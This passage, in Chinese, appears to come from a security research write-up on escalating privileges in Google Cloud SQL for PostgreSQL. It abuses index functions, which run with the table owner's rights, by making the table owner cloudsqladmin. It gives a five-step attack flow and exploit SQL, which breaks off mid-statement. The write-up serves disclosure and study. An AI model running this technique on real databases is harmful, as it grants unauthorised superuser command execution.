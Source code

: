 通过尝试将 `cloudsqladmin` 用户设置为所有者 `test_table` ，我们预计会收到以下错误：

<div align=center><img width="1000" src="/img/2000000005.png"><br><br>云 SQL 更改表预期</div><br>

所以想象一下，当我们真正得到时，我们的惊讶：

<div align=center><img width="1000" src="/img/2000000006.png"><br><br>云 SQL 更改表现实</div><br>

为了了解此功能的潜在安全影响，我们必须深入研究 PostgreSQL 引擎的内部结构。


### 将 ALTER TABLE 与索引函数相结合

PostgreSQL 的索引功能允许构建复杂和改进的索引，这些索引基于应用于单个表的一个或多个列的函数定义（PostgreSQL 文档）。

定义基于索引函数的索引的语法为：

```sql
CREATE INDEX index_name ON indexed_table (index_function(column_name));
```

当 PostgreSQL `INSERT/UPDATE/ANALYZE` 命令在具有索引函数的表上执行时，该函数将作为命令的一部分进行调用。

<div align=center><img width="1000" src="/img/2000000007.png"></div><br>

在我们的研究中，我们发现对表执行上述任何命令都会隐式调用具有表所有者权限的索引函数。这种行为在官方的 PostgreSQL 文档中没有详细说明，但是在 PostgreSQL 源代码中可以看到对它的引用：

```C
/*
 * Switch to the table owner's userid, so that any index functions are run
 * as that user.  Also lock down security-restricted operations and
 * arrange to make GUC variable changes local to this command.
 */
GetUserIdAndSecContext(&save_userid, &save_sec_context);
SetUserIdAndSecContext(onerel->rd_rel->relowner,
                       save_sec_context | SECURITY_RESTRICTED_OPERATION);
```

### 开发

结合这两个原语，我们得出了以下攻击流程：

1. 创建新表。
2. 在表中插入一些虚拟内容，以便索引函数可以使用一些内容。
3. 在表上创建一个恶意索引函数（使用我们的代码执行有效负载）。
4. 将表所有者更改为 `cloudsqladmin` GCP 的超级用户角色，仅由 Cloud SQL 用于维护和管理数据库。
5. 分析表，强制 PostgreSQL 引擎将用户上下文切换到表的所有者（ `cloudsqladmin` ）并调用具有 `cloudsqladmin` 权限的恶意索引函数，导致执行我们的 shell 命令，而我们之前没有权限执行该命令。

在PostgreSQL中，这个流程看起来像这样：

```sql
CREATE TABLE temp_table (data text);
CREATE TABLE shell_commands_results (data text);

INSERT INTO temp_table VALUES ('dummy content');

/* PostgreSQL does not allow creating a VOLATILE index function, so first we create IMMUTABLE index function */
CREATE OR REPLACE FUNCTION public.suid_function(text) RETURNS text
  LANGUAGE sql IMMUTABLE AS 'select ''nothing'';';

CREATE INDEX index_malicious ON public.temp_table (suid_function(data));

ALTER TABLE temp_table OWNER TO cloudsqladmin;

/* Replace the function with VOLATILE index function to bypass the PostgreSQL restriction */
CREATE OR REPLACE FUNCTION public.suid_function(text) RETURNS text
```